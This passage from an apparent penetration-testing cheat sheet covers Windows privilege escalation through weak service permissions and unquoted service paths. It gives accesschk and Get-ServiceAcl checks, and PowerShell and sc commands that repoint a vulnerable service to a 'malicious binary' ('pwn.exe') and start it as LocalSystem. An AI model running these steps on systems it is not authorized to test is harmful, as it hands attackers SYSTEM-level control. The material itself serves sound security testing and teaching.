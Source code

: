 Find weak service permissions:

```
Cmd > .\accesschk.exe /accepteula -uwcqv Users *
Cmd > .\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```


#### upnphost & SSDPSRV (Windows XP)

* [https://sohvaxus.github.io/content/winxp-sp1-privesc.html](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
* [PayloadsAllTheThings/Example with Windows XP SP0/SP1 - upnphost](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-xp-sp1---upnphost)
* [https://www.exploit-db.com/exploits/1465](https://www.exploit-db.com/exploits/1465)
* [http://www.tarasco.org/security/srvcheck/index.html](http://www.tarasco.org/security/srvcheck/index.html)



### Weak Service Permissions

Check service permissions with a [script](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/):

```
PS > Get-ServiceAcl -Name VulnerableSvc | select -ExpandProperty Access
```

Change ownership of the malicious binary to LocalSystem:

```
PS > $Acl = Get-ACL $filename
PS > $AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("NT AUTHORITY\LocalSystem", "FullControl", "none", "none", "Allow")
PS > $Acl.AddAccessRule($AccessRule)
PS > Set-Acl $filename $Acl
```

Set `binPath` to point to the malicious binary and trigger vulnerable service:

```
PS > cmd /c sc config VulnerableSvc binPath= "pwn.exe" obj= LocalSystem start= demand
PS > cmd /c sc qc VulnerableSvc
PS > cmd /c sc start VulnerableSvc
```



### Unquoted Service Paths

* [https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)

[CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function parses an unquoted `BINARY_PATH_NAME` like follows:

```
C:\Program Files\Vulnerable Service\Vuln Service.exe
  -> C:\Program.exe
  -> C:\Program Files\Vulnerable.exe
  -> C:\Program Files\Vulnerable Service\Vuln.exe
  -> C:\Program Files\Vulnerable Service\Vuln Service.exe
```
